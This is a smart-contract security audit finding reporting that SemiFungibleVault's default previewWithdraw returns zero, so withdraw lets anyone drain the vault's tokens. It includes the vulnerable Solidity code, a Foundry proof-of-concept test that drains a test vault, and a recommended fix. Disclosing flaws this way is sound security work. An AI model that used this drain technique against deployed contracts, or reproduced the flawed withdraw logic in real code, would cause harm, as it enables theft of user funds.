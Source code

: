 Dug

medium

# `SemiFungibleVault` can be drained

## Summary

The default implementation of `SemiFungibleVault`'s `withdraw` function allows anyone to drain all underlying tokens from the vault. 

## Vulnerability Detail

The `withdraw` function in `SemiFungibleVault` is defined as follows:

```solidity
function withdraw(
    uint256 id,
    uint256 assets,
    address receiver,
    address owner
) external virtual returns (uint256 shares) {
    require(
        msg.sender == owner || isApprovedForAll(owner, msg.sender),
        "Only owner can withdraw, or owner has approved receiver for all"
    );

    shares = previewWithdraw(id, assets);

    _burn(owner, id, shares);

    emit Withdraw(msg.sender, receiver, owner, id, assets, shares);
    asset.safeTransfer(receiver, assets);
}
```

When a user calls `withdraw`, they provide an amount via the `assets` parameter. The `previewWithdraw` function is called, with the intention of using `amount` to calculate the number of shares that will be burned. 

However, the default implementation of the `previewWithdraw` is a no-op that will always return `0`.

```solidity
    function previewWithdraw(
        uint256 id,
        uint256 assets
    ) public view virtual returns (uint256) {}
```

Therefore a user can call `withdraw` with any amount of `assets` and the `previewWithdraw` function will return `0`. This means that the `withdraw` function will burn `0` shares, and will transfer the full amount of `assets` to the `receiver` address.

## Impact

A user can call `withdraw` with the vaults full balance as `assets` and drain all underlying tokens from the vault.

While I realize these functions are overridden in `VaultV2`, the fact that `SemiFungibleVault` is an abstract contract implies that it is meant to be reusable as a base contract for other vaults. Auditing it as an abstract contract, it is a vulnerable one.

The default implementation of this function is extremely dangerous should it be used in a different context.

### Proof of concept
```solidity
contract Derived is SemiFungibleVault {
    constructor(
        IERC20 asset_
    ) SemiFungibleVault(asset_, "name", "symbol", "tokenURI") {}
}

contract VaultIssues is Helper {
    function testDrain() public {
        // create a vault with 100 tokens
        address asset = address(new MintableToken("name", "symbol"));
        Derived vault = new Derived(IERC20(asset));
        deal(asset, address(vault), 100 ether, true);

        // confirm initial balances
        assertEq(IERC20(asset).balanceOf(address(vault)), 100 ether);
        assertEq(IERC20(asset).balanceOf(USER), 0);

        // drain the vault
        vm.prank(USER);
        vault.withdraw(0, 100 ether, USER, USER);

        // confirm drained vault
        assertEq(IERC20(asset).balanceOf(address(vault)), 0);
        assertEq(IERC20(asset).balanceOf(USER), 100 ether);
    }
}
```

## Code Snippet

https://github.com/sherlock-audit/2023-03-Y2K/blob/main/Earthquake/src/v2/SemiFungibleVault.sol#L66-L90

## Tool used

Manual Review

## Recommendation

The default implementation should be changed so the `assets` amount passed in gets burned. 

```diff
-   shares = previewWithdraw(id, assets);

-   _burn(owner, id, shares);
+   _burn(owner, id, assets);
```

Alternatively, the `withdraw` and `previewWithdraw` functions should be marked as `abstract` and have no default implementation. This would force derived contracts to implement these functions and remove the default vulnerability.